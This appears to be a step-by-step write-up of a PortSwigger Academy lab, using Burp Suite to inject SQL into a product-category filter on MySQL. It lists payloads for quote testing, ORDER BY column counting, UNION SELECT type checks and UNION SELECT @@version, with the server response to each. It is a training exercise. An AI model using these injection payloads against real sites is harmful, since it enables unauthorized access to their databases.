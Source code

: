 ## [Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)


### Steps

1. **Access the Lab**  
   - Go to the lab and click on the "Accessories" category. This sends a request like:  
     `GET /filter?category=Accessories`.

2. **Set Up Burp Suite**  
   - Open Burp Suite Community Edition and configure it to intercept browser requests.  
   - Intercept the `GET /filter?category=Accessories` request to manipulate the `category` parameter.

3. **Test for SQL Injection**  
   - Modify the `category` parameter to include a single quote: `category=Accessories'`.  
   - If the server responds with an error, it indicates a potential SQL injection vulnerability.

4. **Determine Number of Columns**  
   - Use an `ORDER BY` clause to find the number of columns in the query:  
     - `category=Accessories' order by 1--`: Error (likely due to incorrect comment syntax).  
     - `category=Accessories' order by 1#`: 200 OK (MySQL comment syntax works).  
     - `category=Accessories' order by 2#`: 200 OK (two columns confirmed).  
     - `category=Accessories' order by 3#`: 500 Internal Server Error (no third column).  
   - **Result**: The query returns two columns.

5. **Determine Column Data Types**  
   - Test which columns accept string data using a `UNION SELECT` payload:  
     - `category=Accessories' UNION SELECT NULL,'a'#`: 200 OK.  
     - `category=Accessories' UNION SELECT 'a','a'#`: 200 OK.  
     - `category=Accessories' UNION SELECT NULL,NULL#`: 200 OK.  
     - `category=Accessories' UNION SELECT 'a',NULL#`: 200 OK.  
   - **Result**: Both columns accept string data (since all payloads return 200 OK).

6. **Retrieve Database Version**  
   - Use a `UNION SELECT` to query the database version:  
     - `category=Accessories' UNION SELECT @@version,NULL#`.  
   - Send the request in Burp Repeater.  
   - **Result**: The response displays the MySQL version on the page.

7. **Verify and Submit**  
   - Render the response in Burp or paste the URL into the browser to confirm the version appears.  
   - If a "Congratulations" message pops up, the lab is solved!

#### Notes
- The `#` comment syntax is key for MySQL, as `--` caused errors.  
